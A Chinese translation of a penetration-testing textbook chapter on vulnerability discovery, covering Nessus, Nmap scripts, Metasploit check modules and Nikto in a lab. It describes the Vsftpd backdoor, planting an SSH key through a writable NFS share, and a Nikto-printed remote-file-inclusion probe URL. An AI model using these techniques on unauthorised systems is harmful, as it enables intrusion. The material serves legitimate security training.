## 第六章. 查找漏洞

在我们开始使用漏洞利用工具之前，我们需要做更多的研究和分析。在识别漏洞时，我们积极寻找可能导致在利用阶段发生泄露的问题。尽管一些安全公司会仅仅运行自动化的漏洞利用工具并希望一切顺利，但经过熟练渗透测试人员仔细研究漏洞的结果往往比任何工具本身更为有效。

在本章中，我们将探讨几种漏洞分析方法，包括自动化扫描、定向分析和手动研究。

## 从 Nmap 版本扫描到潜在漏洞

现在我们已经有了一些关于目标和攻击面的信息，我们可以制定场景来实现我们的渗透测试目标。例如，端口 21 上的 FTP 服务器自报是 Vsftpd 2.3.4。Vsftpd 是 Very Secure FTP 的缩写。

我们可能会认为，一个自称*非常安全*的产品是在寻求麻烦，事实上，2011 年 7 月，Vsftpd 存储库被发现遭到入侵。Vsftpd 的二进制文件被替换为一个带有后门的版本，可以通过包含笑脸符号 `:)` 的用户名触发。这个漏洞会在 6200 端口打开一个 root shell。一旦这个问题被发现，带后门的二进制文件被移除，官方的 Vsftpd 2.3.4 被重新安装。因此，尽管 Vsftpd 2.3.4 的存在并不能保证我们的目标存在漏洞，但它绝对是一个值得考虑的威胁。渗透测试没有比借用一个已经控制系统的攻击者的漏洞利用更简单的事情了。

## Nessus

Tenable Security 的 Nessus 是最广泛使用的商业漏洞扫描器之一，尽管许多厂商提供了类似的产品。Nessus 与一个被希腊神话英雄赫拉克勒斯（Heracles）所杀的半人马同名，而该半人马的血液后来也杀死了赫拉克勒斯自己。Nessus 数据库包含跨平台和协议的漏洞，其扫描器通过一系列检查来检测已知的问题。你会发现有关于 Nessus 的整本书籍和培训课程，随着你对这个工具的熟悉，你将找到最适合你的使用方法。在这里，我只会简要介绍 Nessus。

Nessus 提供付费的专业版，渗透测试人员和内部安全团队可以使用该版本扫描网络中的漏洞。你可以使用免费版的 Nessus Home 来尝试本书中的练习。Nessus Home 限制扫描 16 个 IP 地址。（Nessus 并未预装在 Kali 中，但我们在第一章中介绍了如何安装它。）

在运行 Nessus 之前，你需要启动 Nessus 守护进程。为此，请输入 `service` 命令，如下所示，在 TCP 端口 8834 上启动 Nessus Web 界面。

```
root@kali:~# **service nessusd start**
```

现在打开一个网页浏览器，并通过将 Iceweasel 浏览器定向到 *https://kali:8834* 来访问 Nessus。（如果你想从其他系统（例如主机）访问 Nessus 界面，你必须将 *kali* 替换为 Kali 机器的 IP 地址。）初始化几分钟后，你应该会看到一个登录界面，如 图 6-1 所示。使用你在 第一章 中创建的登录凭据。

### Nessus 策略

Nessus 的网页界面在屏幕顶部有几个标签，如 图 6-2 所示。我们从“策略”标签开始。Nessus 策略类似于配置文件，告诉 Nessus 在漏洞扫描中运行哪些漏洞检查、端口扫描器等。

图 6-1. Nessus 网页界面登录界面图 6-2. Nessus 策略

要创建策略，点击 Nessus 界面左侧的 **新建策略**。Nessus 的策略向导将帮助你创建一个符合扫描目标的策略，如 图 6-3 所示。对于我们的简单示例，选择 **基础网络扫描**。

图 6-3. Nessus 策略向导

现在，系统提示你输入一些关于策略的基本信息，如 图 6-4 所示，包括名称、描述以及其他 Nessus 用户是否可以访问该策略。完成后，点击 **下一步**。

图 6-4. 基础策略设置

接下来，系统会询问这是内部扫描还是外部扫描，如 图 6-5 所示。选择 **内部** 并点击 **下一步**。

图 6-5. 内部或外部扫描

如果你有凭据，Nessus 可以与主机进行身份验证，查找可能不会从网络视角显现的漏洞。此功能通常被内部安全团队用于测试其网络的安全态势。你可以在下一步设置这些凭据，如 图 6-6 所示。现在，你可以跳过此步骤并点击 **保存**。

图 6-6. 添加凭据（可选）

如图 6-7 所示，我们的新策略现在已显示在策略选项卡中。

图 6-7. 我们的策略已添加。

### 使用 Nessus 进行扫描

现在，让我们切换到扫描选项卡并对目标机器运行 Nessus。点击**扫描** ▸ **新建扫描**，然后填写扫描信息，如图 6-8 所示。Nessus 需要知道我们的扫描名称（名称）、使用的扫描策略（策略）以及要扫描的系统（目标）。

图 6-8. 启动 Nessus 扫描

Nessus 对目标执行一系列探测，以试图尽可能多地检测或排除问题。正在运行的扫描会被添加到扫描选项卡中，如图 6-9 所示。

图 6-9. 运行 Nessus 扫描

扫描完成后，点击它以查看结果，如图 6-10 所示。

图 6-10. 结果的高层概览

如图所示，Nessus 在 Windows XP 和 Ubuntu 目标上发现了多个严重漏洞。但在 Windows 7 主机上仅发现了信息性数据。

若要查看特定主机的详细信息，点击该主机。Windows XP 漏洞的详细信息如图 6-11 所示。

图 6-11. Nessus 对结果进行分类并描述。

不管你怎么评价漏洞扫描器，很难找到一个产品，能够像 Nessus 一样快速且轻松地提供如此多的目标环境信息。例如，Nessus 的结果显示，我们的 Windows XP 目标实际上缺少第四章中讨论的 MS08-067 补丁。它似乎还缺少其他影响 SMB 服务器的 Microsoft 补丁。

哪个漏洞是最易被利用的？Nessus 针对某个特定问题的输出通常会提供一些关于该问题潜在可利用性的相关信息。例如，点击输出中的 MS08-067 漏洞（图 6-12）会显示 Metasploit 以及其他工具（如 Core Impact 和 Canvas）中可用于此漏洞的攻击代码。

图 6-12. MS08-067 Nessus 条目提供详细信息。

### 关于 Nessus 排名的说明

Nessus 根据美国国家标准与技术研究院（NIST）的通用漏洞评分系统（CVSS）版本 2 对漏洞进行排名。排名是根据系统在漏洞被利用时可能产生的影响来计算的。虽然漏洞的排名越高，Nessus 认为漏洞问题越严重，但漏洞的实际风险取决于环境。例如，Nessus 将匿名 FTP 访问评为中等风险漏洞。然而，当只限于非敏感文件时，匿名 FTP 访问的风险可能低到几乎没有。另一方面，企业将其专有源代码副本随意放在一个公开的 FTP 服务器上的情况并不罕见。如果在外部渗透测试任务中，你可以通过以 *anonymous* 身份登录 FTP 服务器访问到客户的最大资产，那么可以安全地假设任何感兴趣的攻击者也可以做到这一点，这就需要立即联系你的客户。工具无法做出这种区分，做这种区分需要的是渗透测试人员。

### 为什么使用漏洞扫描器？

尽管一些渗透测试课程完全忽略了漏洞扫描，并认为一个熟练的渗透测试人员可以发现扫描仪能发现的所有问题，但扫描仪仍然是有价值的工具，尤其是在很多渗透测试是在比任何人想象的时间更短的窗口期内完成的。不过，如果你评估的目标之一是避免被检测到，你可能需要三思而后行，避免使用过于显眼的漏洞扫描器。

虽然 Nessus 并没有发现我们环境中的所有问题，但它的使用与我们信息收集阶段的结果结合，为我们提供了一个坚实的漏洞利用起点。即便是那些认为渗透测试人员应该在任务中替代扫描仪的渗透测试人员，也能从学会如何使用扫描工具中受益。虽然在理想的世界里，每个公司都会定期进行无所不用其极的渗透测试，但现实中，仍有大量的漏洞扫描工作可以进行。

### 导出 Nessus 扫描结果

一旦 Nessus 扫描完成，你可以通过扫描详情页面顶部的导出按钮导出扫描结果，如图 6-13 所示。

图 6-13. 导出 Nessus 扫描结果

Nessus 可以将结果输出为 PDF、HTML、XML、CSV 等格式。你可能希望将原始结果交给客户用于漏洞扫描任务，但绝不应导出扫描器结果，随便加上公司信头，然后称其为渗透测试结果。渗透测试涉及比漏洞扫描更多的分析。你应该始终验证自动扫描器的结果，并结合手动分析，以获得更完整的环境漏洞图像。

现在来看看一些其他的漏洞分析方法。

### 漏洞研究

如果 Nessus 的总结页面没有给你提供足够的漏洞信息，可以尝试使用传统的 Google 搜索。此外，可以尝试搜索*[`www.securityfocus.com/`](http://www.securityfocus.com/)*、*[`www.packetstormsecurity.org/`](http://www.packetstormsecurity.org/)*、*[`www.exploit-db.org/`](http://www.exploit-db.org/)*和*[`www.cve.mitre.org/`](http://www.cve.mitre.org/)*。例如，你可以通过 Google 查询如“ms08-067 site:securityfocus.com”来在特定网站上搜索漏洞信息，使用 CVE 系统、微软补丁编号等。MS08-067 漏洞曾引起广泛关注，因此你会找到大量有用的信息。（我们在第四章中详细探讨了这个特定问题。）

根据你的漏洞类型，你也许能够在线找到概念验证的利用代码。我们将在第十九章中探讨如何使用公共代码，但请注意，与 Metasploit 这类经过社区审核的漏洞利用不同，互联网上的所有代码都不一定能按其声明的功能运行。公共漏洞利用中的有效载荷可能会破坏目标机器，或者可能将你的机器加入到漏洞利用作者的秘密僵尸网络。在使用公共漏洞利用时要保持警惕，运行前要仔细审查，确保不会影响生产环境的网络。（你也可能会找到一些由最初发现漏洞的研究人员发布的深入信息。）

## Nmap 脚本引擎

现在介绍另一种提供漏洞扫描的工具。就像 Metasploit 从一个漏洞利用框架发展成一个拥有数百个模块的完整渗透测试套件一样，Nmap 也从最初的端口扫描工具发展而来。Nmap 脚本引擎（NSE）允许你运行公开可用的脚本，并编写自己的脚本。

你会在 Kali 中找到随 NSE 打包的脚本，路径是 */usr/share/nmap/scripts*。这些可用脚本分为几个类别，包括信息收集、主动漏洞评估、搜索先前攻击迹象等。示例 6-1 显示了你在默认 Kali 安装中可用的 NSE 脚本。

示例 6-1. Nmap 脚本列表

```
root@kali:~# **cd /usr/share/nmap/scripts**
root@kali:/usr/local/share/nmap/scripts# **ls**
acarsd-info.nse                         ip-geolocation-geobytes.nse
address-info.nse                        ip-geolocation-geoplugin.nse
afp-brute.nse                           ip-geolocation-ipinfodb.nse
afp-ls.nse                              ip-geolocation-maxmind.nse
--*snip*--
```

要获取有关特定脚本或脚本类别的更多信息，可以在 Nmap 中输入 `--script-help` 参数。例如，要查看 *default* 类别中的所有脚本，可以输入 **`nmap --script-help default`**，如 示例 6-2 所示。是否将某个脚本包含在默认类别中，取决于多个因素，包括其可靠性、脚本是否安全并且不太可能对目标造成损害。

示例 6-2. Nmap 默认脚本帮助

```
root@kali:~# **nmap --script-help default**
Starting Nmap 6.40 ( http://nmap.org ) at 2015-07-16 14:43 EDT
--*snip*--
ftp-anon
Categories: default auth safe
http://nmap.org/nsedoc/scripts/ftp-anon.html
  Checks if an FTP server allows anonymous logins.

  If anonymous is allowed, gets a directory listing of the root directory and highlights writeable files.
--*snip*--
```

如果你使用 `-sC` 参数告诉 Nmap 除了端口扫描外还运行脚本扫描，它会运行 *default* 类别中的所有脚本，如 示例 6-3 所示。

示例 6-3. Nmap 默认脚本输出

```
root@kali:~# **nmap -sC 192.168.20.10-12**

Starting Nmap 6.40 ( http://nmap.org ) at 2015-12-30 20:21 EST
Nmap scan report for 192.168.20.10
Host is up (0.00038s latency).
Not shown: 988 closed ports
PORT     STATE SERVICE
21/tcp   open  ftp
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxr-xr-x 1 ftp ftp              0 Aug 06  2009 incoming
|_-r--r--r-- 1 ftp ftp            187 Aug 06  2009 onefile.html
|_ftp-bounce: bounce working!
25/tcp   open  smtp
| smtp-commands: georgia.com, SIZE 100000000, SEND, SOML, SAML, HELP, VRFY❶, EXPN, ETRN, XTRN,
|_ This server supports the following commands. HELO MAIL RCPT DATA RSET SEND SOML SAML HELP NOOP QUIT
79/tcp   open  finger
|_finger: Finger online user list request denied.
80/tcp   open  http
|_http-methods: No Allow or Public header in OPTIONS response (status code 302)
| http-title:             XAMPP            1.7.2 ❷
|_Requested resource was http://192.168.20.10/xampp/splash.php
--*snip*--
3306/tcp open  mysql
| mysql-info: MySQL Error detected!
| Error Code was: 1130
|_Host '192.168.20.9' is not allowed to connect to this MySQL server ❸
--*snip*--
```

如你所见，Nmap 脚本引擎发现了许多有趣的信息。例如，我们看到 Windows XP 目标的端口 25 上的 SMTP 服务器允许使用 `VRFY` ❶ 命令，这使我们能够查看邮件服务器上是否存在某个用户名。如果我们有有效的用户名，使用该命令将使凭证猜测攻击更有可能成功。

我们还可以看到，端口 80 上的 Web 服务器似乎是 XAMPP 1.7.2 版本 ❷。截至本文写作时，Windows 平台上 XAMPP 的当前稳定版本是 1.8.3\。至少，我们发现的版本已经过时，可能还存在安全问题。

除了向我们展示潜在的漏洞，NSE 还允许我们排除一些服务。例如，我们可以看到，端口 3306 上的 MySQL 服务器不允许我们连接，因为我们的 IP 地址未被授权❸。如果我们能够攻击环境中的其他主机，可能会想在后期利用时再次访问该端口，但现在我们可以排除该主机上的 MySQL 漏洞。

## 运行单个 NSE 脚本

在继续之前，让我们看一个使用 NSE 脚本的另一个例子，这次使用的是非默认脚本。从上一章我们对 Nmap 的基本使用中知道，我们的 Linux 目标正在运行网络文件系统（NFS）。NFS 允许客户端计算机通过网络访问本地文件，但在渗透测试过程中，你可能会发现安全地配置 NFS 比说起来容易做起来难。许多用户并没有考虑到让远程用户访问文件的安全后果。最糟糕的情况是什么呢？我与同事共享我的主目录又有什么关系呢？

NSE 脚本*nfs-ls.nse*会连接到 NFS 并审计共享。我们可以通过`--script-help`命令查看单个脚本的更多信息，如示例 6-4 所示。

示例 6-4. Nmap NFS-LS 脚本详细信息

```
root@kali:~# **nmap --script-help nfs-ls**
Starting Nmap 6.40 ( http://nmap.org ) at 2015-07-16 14:49 EDT

nfs-ls
Categories: discovery safe
http://nmap.org/nsedoc/scripts/nfs-ls.html
  Attempts to get useful information about files from NFS exports.
  The output is intended to resemble the output of <code>ls</code>.
--*snip*--
```

这个脚本挂载远程共享，审计其权限，并列出共享中的文件。要对我们的 Linux 目标运行脚本，我们可以使用`--script`选项和脚本名称，如示例 6-5 所示。

示例 6-5. Nmap NFS-LS 脚本输出

```
root@kali:/# **nmap --script=nfs-ls 192.168.20.11**

Starting Nmap 6.40 ( http://nmap.org ) at 2015-12-28 22:02 EST
Nmap scan report for 192.168.20.11
Host is up (0.00040s latency).
Not shown: 993 closed ports
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
22/tcp   open  ssh         OpenSSH 5.1p1 Debian 3ubuntu1 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http        Apache httpd 2.2.9 ((Ubuntu) PHP/5.2.6-2ubuntu4.6 with Suhosin-Patch)
111/tcp  open  rpcbind     2 (RPC #100000)
| nfs-ls:
|   Arguments:
|     maxfiles: 10 (file listing output limited)
|
|   NFS Export: /export/georgia❶
|   NFS Access: Read Lookup Modify  Extend Delete NoExecute
|     PERMISSION  UID   GID   SIZE  MODIFICATION TIME  FILENAME
|     drwxr-xr-x  1000  1000  4096  2013-12-28 23:35   /export/georgia
|     -rw-------  1000  1000  117   2013-12-26 03:41   .Xauthority
|     -rw-------  1000  1000  3645  2013-12-28 21:54   .bash_history
|     drwxr-xr-x  1000  1000  4096  2013-10-27 03:11   .cache
|     -rw-------  1000  1000  16    2013-10-27 03:11   .esd_auth
|     drwx------  1000  1000  4096  2013-10-27 03:11   .gnupg
|     ??????????  ?     ?     ?     ?                  .gvfs
|     -rw-------  1000  1000  864   2013-12-15 19:03   .recently-used.xbel
|     drwx------  1000  1000  4096  2013-12-15 23:38   .ssh❷
--*snip*--
```

如你所见，NSE 脚本找到了我们的 Linux 目标上的 NFS 共享*/export/georgia* ❶。特别值得关注的是*.ssh* 目录 ❷，它可能包含敏感信息，如 SSH 密钥，以及（如果允许 SSH 服务器上的公钥认证）授权密钥列表。

当你遇到这种访问控制错误时，一个常见的渗透测试技巧是利用这个错误和写权限，向*authorized_keys* 列表中添加一个新的 SSH 密钥（在这种情况下是我们的密钥）。如果尝试成功，原本看似无关紧要的编辑用户文档问题，突然变成了能够登录远程系统并执行命令的能力。

在继续之前，让我们确认在我们的 Linux 目标上启用了公钥 SSH 认证，这样我们设想的攻击才能成功。基于密钥的登录被认为是最强的 SSH 认证形式，并且建议用于安全性。通过快速 SSH 尝试连接我们的 Linux 目标，可以看到这里允许公钥认证 ❶（参见示例 6-6）。

示例 6-6. SSH 认证方法

```
root@kali:/# **ssh 192.168.20.11**
The authenticity of host '192.168.20.11 (192.168.20.11)' can't be established.
RSA key fingerprint is ab:d7:b0:df:21:ab:5c:24:8b:92:fe:b2:4f:ef:9c:21.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '192.168.20.11' (RSA) to the list of known hosts.
root@192.168.20.11's password:
Permission denied (publickey❶,password).
```

### 注意

一些 NSE 脚本可能会导致服务崩溃或损害目标系统，其中一个完整的类别专门用于拒绝服务攻击。例如，脚本*smb-check-vulns*会检查 MS08-067 漏洞和其他 SMB 漏洞。它的帮助信息指出，这个脚本可能是危险的，不应在生产系统上运行，除非你准备好让服务器崩溃。

## Metasploit 扫描器模块

我们在第四章中使用的 Metasploit 也可以通过多个辅助模块进行漏洞扫描。与漏洞利用不同，这些模块不会让我们控制目标机器，但它们会帮助我们识别漏洞，以便后续的利用。

其中一个 Metasploit 模块寻找提供匿名访问的 FTP 服务。虽然手动尝试登录到单个 FTP 服务器可能足够简单，但 Metasploit 辅助模块可以让我们一次扫描多个主机，这样在测试大型环境时可以节省时间。

要选择特定的模块，我们使用`use`命令来加载模块，然后通过`set`命令定义目标，最后通过`exploit`命令进行扫描，如示例 6-7 所示。这个语法应该和第四章中的内容类似。

示例 6-7. Metasploit 匿名 FTP 扫描模块

```
msf > **use scanner/ftp/anonymous**

msf  auxiliary(anonymous) > **set RHOSTS 192.168.20.10-11**
RHOSTS => 192.168.20.10-11
msf  auxiliary(anonymous) > **exploit**

[*] 192.168.20.10:21 Anonymous READ (220-FileZilla Server version 0.9.32 beta
220-written by Tim Kosse (Tim.Kosse@gmx.de) ❶
220 Please visit http://sourceforge.net/projects/filezilla/)
[*] Scanned 1 of 2 hosts (050% complete)
[*] 192.168.20.11:21 Anonymous READ (220 (vsFTPd 2.3.4)) ❶
[*] Scanned 2 of 2 hosts (100% complete)
[*] Auxiliary module execution completed
msf  auxiliary(anonymous) >
```

在❶时，我们发现 Windows XP 和 Linux 目标都启用了匿名 FTP。我们知道这可能是一个严重问题，也可能不是，具体取决于匿名用户在 FTP 文件夹中可以访问的文件。我曾参与过一些项目，其中公司的商业机密就暴露在一个面向互联网的 FTP 服务器上。另一方面，我也参与过一些项目，其中从商业角度看，使用匿名 FTP 是合理的，并且没有敏感文件存在。作为渗透测试人员，需要填补自动化扫描工具在特定环境中缺乏的有关问题严重性的信息。

## Metasploit 漏洞利用检查函数

一些 Metasploit 漏洞利用模块包括一个`check`函数，它会连接到目标服务器检查其是否存在漏洞，而不是直接尝试利用漏洞。我们可以将这个命令当作一种临时的漏洞扫描工具，如示例 6-8 所示。（运行`check`时无需指定有效载荷，因为不会进行漏洞利用。）

示例 6-8. MS08-067 检查函数

```
msf > **use windows/smb/ms08_067_netapi**

msf  exploit(ms08_067_netapi) > **set RHOST 192.168.20.10**
RHOST => 192.168.20.10
msf  exploit(ms08_067_netapi) > **check**❶

[*] Verifying vulnerable status... (path: 0x0000005a)
[+] The target is vulnerable.❷
msf  exploit(ms08_067_netapi) >
```

当我们运行漏洞`check` ❶时，Metasploit 会告诉我们我们的 Windows XP 目标存在 MS08-067 漏洞 ❷，正如预期的那样。

不幸的是，并不是所有 Metasploit 模块都有`check`函数。（如果你尝试在不支持的模块上运行`check`，Metasploit 会告知你。）例如，根据我们在上一章中进行的 Nmap 版本扫描结果，Windows XP 目标邮件服务器似乎过时，并且可能存在安全问题。SLMail 版本 5.5.0.4433 有一个已知的可利用漏洞——CVE-2003-0264——因此我们可以通过在 Msfconsole 中搜索*cve:2003-0264*来轻松找到它。

一旦进入模块上下文，我们就可以测试`check`命令，如示例 6-9 所示。

示例 6-9. SLMail 模块没有检查函数。

```
msf  exploit(seattlelab_pass) > **set RHOST 192.168.20.10**
rhost => 192.168.20.10
msf  exploit(seattlelab_pass) > **check**
[*] This exploit does not support check.
msf  exploit(seattlelab_pass) >
```

事实证明，这个漏洞利用模块没有实现`check`函数，因此我们无法得到服务是否存在漏洞的确凿保证。虽然根据其横幅版本号，我们的 SLMail POP3 服务器看起来可能存在漏洞，但我们无法从 Metasploit 获得确认。在这种情况下，我们可能无法确定漏洞是否存在，除非运行一个漏洞利用程序。

## Web 应用程序扫描

尽管客户的定制应用程序可能存在安全问题，但您的目标系统也可能部署了预构建的 web 应用程序，如工资单应用、网页邮件等，这些应用也可能存在相同的安全问题。如果我们能够找到已知的易受攻击软件实例，可能能够利用它在远程系统中获得立足点。

在许多外部渗透测试中，web 应用程序问题尤其值得关注，因为您的攻击面可能仅限于 web 服务器。例如，正如您在 图 6-14 中看到的，访问我们 Linux 目标的 web 服务器的默认网页会显示一个默认的 Apache 安装页面。

图 6-14. 默认 Apache 页面

除非我们能在底层 web 服务器软件中找到漏洞，否则很难利用一个简单的页面，它只显示“它工作了！”不过，在我们放弃这个服务之前，让我们使用 web 扫描器查找其他可能我们无法看到的页面。

### Nikto

Nikto 是 Kali 中内置的 web 应用程序漏洞扫描器，类似于 Nessus 但专门针对 web 应用：它查找诸如危险文件、过时版本和配置错误等问题。为了在我们的 Linux 目标上运行 Nikto，我们使用 `-h` 标志指定扫描的主机，如 示例 6-10 所示。

示例 6-10. 运行 Nikto

```
root@kali:/# **nikto -h 192.168.20.11**
- Nikto v2.1.5
---------------------------------------------------------------------------
+ Target IP:          192.168.20.11
+ Target Hostname:    192.168.20.11
+ Target Port:        80
+ Start Time:         2015-12-28 21:31:38 (GMT-5)
---------------------------------------------------------------------------
+ Server: Apache/2.2.9 (Ubuntu) PHP/5.2.6-2ubuntu4.6 with Suhosin-Patch
--*snip*--
+ OSVDB-40478: /tikiwiki/tiki-graph_formula.php?w=1&h=1&s=1&min=1&max=2&f[]=x.tan.phpinfo()&t=png&title=http://cirt.net/rfiinc.txt?: TikiWiki contains a vulnerability which allows remote attackers to execute arbitrary PHP code. ❶
+ 6474 items checked: 2 error(s) and 7 item(s) reported on remote host
+ End Time:           2015-12-28 21:32:41 (GMT-5) (63 seconds)
```

手动浏览每个已知漏洞应用程序的默认安装路径将是一个艰巨的任务，但幸运的是，Nikto 会寻找那些可能不显而易见的 URL。这里有一个特别有趣的发现，那就是服务器上存在一个易受攻击的 TikiWiki 软件安装 ❶。果然，如果我们访问 *[`192.168.20.11/tikiwiki/`](http://192.168.20.11/tikiwiki/)*，就能找到该 CMS 软件。Nikto 认为这个安装存在代码执行漏洞，进一步分析开放源码漏洞数据库（OSVDB）条目 40478 显示，这个问题有一个 Metasploit 漏洞，可以在利用过程中使用。

### 注意

OSVDB (*[`osvdb.com/`](http://osvdb.com/)*) 是一个专门针对开源软件（如 TikiWiki）的漏洞库，提供了各种产品的详细信息。可以使用它来搜索关于您发现的潜在问题的更多信息。

### 攻击 XAMPP

